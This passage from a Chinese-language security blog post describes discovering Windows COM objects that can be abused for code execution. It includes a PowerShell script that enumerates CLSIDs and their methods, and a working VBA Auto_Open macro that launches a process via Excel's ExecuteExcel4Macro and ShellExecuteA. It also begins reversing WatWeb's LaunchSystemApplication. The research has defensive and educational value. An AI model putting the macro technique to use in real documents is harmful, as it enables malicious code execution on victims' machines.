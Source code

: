 &emsp;&emsp;生成的clsid.txt如图所示：

![clsid](https://joeyzzzzzz.github.io/Picture/COM%E5%AF%B9%E8%B1%A1%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E6%8C%96%E6%8E%98/clsid.png)

&emsp;&emsp;接着利用这些clsid通过powershell创建对应的COM对象，并且使用Get-Member方法获取对应的方法和属性，并最终输出到文本中，pwoershell脚本如下：

```powershell
$Position  = 1
$Filename = "clsid-members.txt"
$inputFilename = "clsids.txt"
ForEach($CLSID in Get-Content $inputFilename) {
      Write-Output "$($Position) - $($CLSID)"
      Write-Output "------------------------" | Out-File $Filename -Append
      Write-Output $($CLSID) | Out-File $Filename -Append
      $handle = [activator]::CreateInstance([type]::GetTypeFromCLSID($CLSID))
      $handle | Get-Member | Out-File $Filename -Append
      $Position += 1
}
```

&emsp;&emsp;脚本运行期间可能会打开各种软件，甚至会退出，需要截取clsid重新运行。运行后的文本内容为：

![clsid-members](https://joeyzzzzzz.github.io/Picture/COM%E5%AF%B9%E8%B1%A1%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E6%8C%96%E6%8E%98/clsid-members.png)

&emsp;&emsp;通过搜索关键词：execute、exec、和run，能够发现不少可以利用的COM对象。本人由于在研究宏相关的COM利用，于是尝试了关键字ExecuteExcel4Macro，结果意外的收获到了COM对象Microsoft.Office.Interop.Excel.GlobalClass：

![ExecuteExcel4Macro](https://joeyzzzzzz.github.io/Picture/COM%E5%AF%B9%E8%B1%A1%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E6%8C%96%E6%8E%98/ExecuteExcel4Macro.png)

&emsp;&emsp;于是使用ExecuteExcel4Macro函数加载shell32.dll中的ShellExecuteA成功起calc：

```vbscript
Sub Auto_Open()
Set execl = GetObject("new:00020812-0000-0000-C000-000000000046")
execl.ExecuteExcel4Macro ("CALL(""shell32"", ""ShellExecuteA"", ""JJJCJJH"", -1, 0, ""CALC"", 0, 0, 5)")
End Sub
```

![ExecuteExcel4Macro-calc](https://joeyzzzzzz.github.io/Picture/COM%E5%AF%B9%E8%B1%A1%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E6%8C%96%E6%8E%98/ExecuteExcel4Macro-calc.png)

### 未公开COM对象利用挖掘

&emsp;&emsp;对于已经公开的COM对象挖掘较为容易，当面对未公开的COM对象时，就需要通过逆向挖掘利用。比如位于`C:\windows\system32\wat\watweb.dll`中的WatWeb.WatWebObject对象公开了一个名为LaunchSystemApplication的方法，在oleview中能看到需要3个参数：

![oleview](https://joeyzzzzzz.github.io/Picture/COM%E5%AF%B9%E8%B1%A1%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E6%8C%96%E6%8E%98/oleview.png)

&emsp;&emsp;但仅凭这些信息无法确定该方法是否能起任意进程，于是逆向查看LaunchSystemApplication，由于有调试符号，因此可以直接定位到该方法：

![LaunchSystemApplication](https://joeyzzzzzz.github.io/Picture/COM%E5%AF%B9%E8%B1%A1%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E6%8C%96%E6%8E%98/LaunchSystemApplication.png)

&emsp;&emsp;LaunchSystemApplication调用LaunchSystemApplicationInternal，进入查看发现调用了CreateProcess，有利用的可能：

![LaunchSystemApplicationInternal](https://joeyzzzzzz.github.io/Picture/COM%E5%AF%B9%E8%B1%A1%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E6%8C%96%E6%8E%98/LaunchSystemApplicationInternal.png)

